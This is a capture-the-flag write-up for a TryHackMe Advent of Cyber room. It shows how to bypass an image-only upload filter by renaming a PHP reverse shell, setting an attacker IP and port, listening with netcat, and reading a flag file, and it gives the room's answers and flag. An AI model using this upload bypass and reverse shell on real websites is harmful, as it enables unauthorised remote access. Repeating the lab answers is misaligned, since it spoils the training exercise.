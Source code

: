 # TryHackMe Advent of Cyber Day 1
### References
* DarkSec. (2020). TryHackMe Advent of Cyber 2: Day 2 [YouTube Video]. In YouTube. https://youtu.be/F_nTIX-q32k
* pentestmonkey. (2015, May 29). pentestmonkey/php-reverse-shell. GitHub. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

## What string of text needs adding to the URL to get access to the upload page?
**Answer**: `?id=ODIzODI5MTNiYmYw`
## What type of file is accepted by the site?
From the website's HTML `body > main`:
```html
<main>
	<h1>Protect the Factory!</h1>
	<h2>If you see any suspicious people near the factory, take a picture and upload it here!</h2>
	<input type=file id="chooseFile" accept=".jpeg,.jpg,.png">
	<button tabindex=0 id=coverFile>Select</button>
	<button tabindex=1 id=uploadFile>Submit</button>
	<p id=fileText>No file selected</p>
</main>
```
**Answer**: The website accepts an `image`.
## In which directory are the uploaded files stored?
By trial and error:
* `/uploads`
* `/images`
* `/media`
* `/resources`

**Answer**: `/uploads`
## What is the flag in `/var/www/flag.txt`?
1. Download the [PHP file](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) written by @pentestmonkey.
2. Modify the `$ip` variable to your TryHackMe IP address (green bubble on the navbar), and the `$port` variable to `443`.
```php
$ip = '<OPENVPN_IP>';
$port = 443;
```
3. Rename the PHP file to include `.jpeg`, `.jpg` or `.png`.
4. Run `sudo nc -lvnp 443` and leave process running.
5. Upload renamed PHP file.
6. Navigate to `/uploads/?id=ODIzODI5MTNiYmYw`.
7. Click on PHP file.
![](uploads.jpg)
8. In the `nc` process, run `cat /var/www/flag.txt` from the reverse shell.
```
==============================================================


You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)


==============================================================
```
**Flag**: `THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}`